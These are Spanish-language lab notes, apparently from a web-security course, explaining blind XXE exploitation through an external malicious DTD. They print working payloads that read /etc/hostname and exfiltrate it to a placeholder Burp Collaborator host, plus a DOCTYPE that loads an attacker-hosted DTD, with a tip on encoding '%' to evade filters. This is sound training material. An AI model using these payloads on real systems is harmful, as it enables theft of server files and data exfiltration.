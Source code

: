 En esta clase continuamos con el mismo laboratorio anterior, centrado en la explotación de una vulnerabilidad XXE ciega mediante una DTD externa maliciosa. Ya tenemos definido y alojado el archivo DTD en nuestro exploit server, y ahora utilizamos este recurso para finalizar la exfiltración del contenido del archivo /etc/hostname.

Repasamos cómo se estructura correctamente la carga XML que referencia esa DTD, y analizamos los resultados obtenidos en Burp Collaborator para verificar que la petición externa con los datos del archivo fue realizada correctamente. Este enfoque consolida el uso de entidades parametrizadas en DTD externas como una técnica poderosa para filtrar información sensible en entornos sin salida directa.

Solucion
Explicacion de los payloads
(<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;)
## 🧩 Desglose paso a paso

### 1. `<!ENTITY % file SYSTEM "file:///etc/hostname">`

- Declara una **entidad de parámetro** llamada `%file`.
    
- Su contenido será el **contenido real del archivo `/etc/hostname`** (en sistemas Unix/Linux, este archivo contiene el nombre del host del sistema).
    

---

### 2. `<!ENTITY % eval "...">`

- Declara una **nueva entidad de parámetro** llamada `%eval`.
    
- Su contenido es **otra declaración de entidad DTD**, codificada como texto.
    

xml

CopiarEditar

`"<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"`

- Aquí `&#x25;` es el **carácter `%` en hexadecimal**, usado para evadir filtros.
    
- Esto crea una entidad llamada `%exfil`, cuyo valor será el resultado de una petición a:
    
    ruby
    
    CopiarEditar
    
    `http://BURP-COLLABORATOR-SUBDOMAIN/?x=[contenido de /etc/hostname]`
    

---

### 3. `%eval;`

- Expande la entidad `%eval`, lo que **inyecta dinámicamente la declaración de `%exfil`** en el DTD.
    

---

### 4. `%exfil;`

- Finalmente se **invoca `%exfil`**, lo que hace que el servidor **haga una solicitud HTTP al dominio del atacante**, enviando como parámetro el contenido de `/etc/hostname`.

El otro payload (<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>)

## 🧩 ¿Qué hace este payload?

### 1. `<!ENTITY % xxe SYSTEM "YOUR-DTD-URL">`

- Declara una **entidad de parámetro** llamada `%xxe`.
    
- Su valor **no está definido localmente**, sino que se obtiene desde una **URL externa controlada por el atacante** (tu propia DTD personalizada).
    

### 2. `%xxe;`

- Expande esa entidad, lo que **inyecta el contenido del archivo DTD remoto** dentro del DTD local.
    
- Ese contenido puede incluir **nuevas entidades**, como:
    
    - Lectura de archivos locales.
        
    - Exfiltración de datos a través de HTTP.
        
    - Denegación de servicio, etc.

![Pasted_image_20250730200622.png](/Imagenes/Pasted_image_20250730200622.png)
